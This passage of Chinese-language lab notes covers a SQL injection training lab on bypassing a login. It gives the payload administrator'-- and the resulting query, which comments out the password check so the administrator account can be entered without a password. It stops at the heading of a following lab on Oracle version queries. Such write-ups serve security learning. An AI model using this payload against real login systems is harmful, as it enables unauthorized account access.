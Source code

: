 

提示 `Congratulations！`



#### Lab: SQL injection vulnerability allowing login bypass

就是免密码登录`administrator`账户

直接即可：

```
administrator'--
```

输入后形成的语句如下：

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

将后面的password给注释掉，从而免密码登录。

![image-20250220160248478](../../_media/image-20250220160248478.png)

然后密码随意填写，就可以完成本实验



提示 `Congratulations！`



#### Lab: SQL injection attack, querying the database type and version on Oracle

